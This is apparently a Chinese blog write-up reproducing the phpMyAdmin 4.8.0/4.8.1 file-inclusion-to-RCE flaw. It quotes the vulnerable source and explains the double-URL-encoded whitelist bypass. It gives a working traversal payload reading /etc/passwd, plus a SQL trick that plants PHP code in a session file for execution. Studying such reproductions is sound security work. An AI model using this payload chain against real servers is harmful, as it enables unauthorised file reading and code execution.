 categories:
- cve复现
tags:
- cve复现
title: phpmyadmin 4.8.1 rce
---
# phpmyadmin 4.8.1 rce



## 利用条件

 phpMyAdmin 4.8.0 and 4.8.1 

登陆账号

## 漏洞复现

环境:phpstudy 2018,windows 10

漏洞位置:`index.php`:57

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

非常明显的任意文件包含漏洞

前面几个条件都很好满足,我们看下最后一个`Core::checkPageValidity($_REQUEST['target'])`

跟进去

```php
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

要返回`true`的话,需要`$page`从开头到第一个`?`之间的字符串在白名单中,有以下白名单

```php
array (
  0 => 'db_datadict.php',
....
)
```

因为复现环境是在windows下,windows文件名不能包含`?`,所以`db_datadict.php?`会变为`db_datadict.php`是一个已经存在的文件,我们便无法用`../`来穿梭目录了,但是我们可以看到` $_page = urldecode($page);`

所以我们可以构造`db_datadict.php%253f`来绕过

通用的payload:

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中

![image1794](https://i.loli.net/2020/02/08/p4l2vM6JOLsTGCd.png)

![image1859](https://i.loli.net/2020/02/08/wUZHdhJx9KSQRG7.png)

## 总结

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中